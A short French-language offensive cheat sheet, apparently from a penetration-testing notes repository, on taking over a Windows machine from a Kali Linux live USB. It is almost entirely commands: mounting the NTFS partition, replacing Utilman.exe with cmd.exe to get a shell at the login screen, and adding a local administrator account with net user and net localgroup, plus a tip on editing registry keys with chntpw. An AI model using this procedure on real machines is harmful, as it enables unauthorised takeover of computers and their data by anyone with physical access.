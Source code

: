 # Clé USB Bootable

Brancher une clé USB disposant de Kali Linux Live sur la machine à compromettre :

```
sudo fdisk -l
sudo umount /dev/<PARTITION>
sudo ntfsfix /dev/<PARTITION>
sudo mkdir /mnt/windows
sudo mount /dev/<PARTITION> /mnt/windows
```

Ensuite modifier l'exécutable `Utilman.exe` par `cmd.exe` :

```
sudo cp /mnt/windows/Windows/System32/Utilman.exe /mnt/windows/Windows/System32/Utilman.exe.bak
sudo cp /mnt/windows/Windows/System32/cmd.exe /mnt/windows/Windows/System32/Utilman.exe
```

Redémarrer la machine compromise et ouvrir l'option d'ergonomie. Ajouter un utilisateur :

```
net user admin password /add
net localgroup administrators admin /add
```

#### TIPS

`chntpw` et `reged`peuvent permettre de changer les clés de registre (désactivation de l'auto logon par exemple \[AutoAdminLogon]).
